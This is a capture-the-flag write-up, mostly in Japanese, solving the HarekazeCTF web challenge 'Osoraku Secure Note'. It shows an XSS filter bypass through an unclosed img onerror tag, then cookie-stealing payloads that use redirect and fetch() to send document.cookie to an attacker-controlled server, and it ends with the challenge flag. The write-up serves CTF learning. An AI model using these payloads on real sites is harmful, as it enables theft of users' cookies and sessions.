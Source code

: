 # Osoraku Secure Note:Web:322pts
メモ帳を作ってみました。  
[http://osoraku-secure-note.harekaze.com](http://osoraku-secure-note.harekaze.com/)  
添付ファイル:  
- [osoraku-secure-note.zip](osoraku-secure-note.zip)  

---

I made a note-taking service.  
[http://osoraku-secure-note.harekaze.com](http://osoraku-secure-note.harekaze.com/)  
Attachments:  
- [osoraku-secure-note.zip](osoraku-secure-note.zip)  

# Solution
サイトにアクセスするとメモサービスのようだ。  
Osoraku Secure Note  
[site1.png](site/site1.png)  
メモの閲覧画面で`Report this note`とあることからもXSS問題のようだ。  
[site2.png](site/site2.png)  
`<script>alert(1)</script>`はブロックされる。  
ブラックボックスで`<img abc`を入れてみると`<img abc="" <="" div="">`となっていた。  
不完全なタグでXSSが起こせそうだ。  
`<img src="1" onerror="alert(1)"`でalertが発生した。  
XSSが達成できたので、次に配布されたクローラのソースを見ると以下のようであった。  
```js
~~~
  const page = await browser.newPage();
  try {
    await page.setCookie({
      name: 'flag',
      value: FLAG,
      domain: new URL(BASE_URL).hostname,
      httpOnly: false,
      secure: false
    });
~~~
```
setCookieしているので、document.cookieを取得してリダイレクトすればよい。  
`<img src="1" onerror="location.href='https://[リクエストが受け取れるサーバ]/?s='+btoa(document.cookie)"`  
しかし、うまく動作しなかった(ローカルではChrome,Firefoxで動作した)。  
クローラではよくあることなので、別手法としてfetchすればよい。  
`<img src="1" onerror="fetch('https://[リクエストが受け取れるサーバ]/?s='+btoa(document.cookie))"`  
すると`/?s=ZmxhZz1IYXJla2F6ZUNURntjaHIxc3RtNHNfNGx3NHlzX3JlbTFuZHNfbWVfMGZfNG00ZzRtMX0=`のリクエストが飛んでくる。  
```bash
$ echo "ZmxhZz1IYXJla2F6ZUNURntjaHIxc3RtNHNfNGx3NHlzX3JlbTFuZHNfbWVfMGZfNG00ZzRtMX0=" | base64 -d
flag=HarekazeCTF{chr1stm4s_4lw4ys_rem1nds_me_0f_4m4g4m1}
```
デコードするとflagであった。  
ちなみにfirst bloodだった。  

## HarekazeCTF{chr1stm4s_4lw4ys_rem1nds_me_0f_4m4g4m1}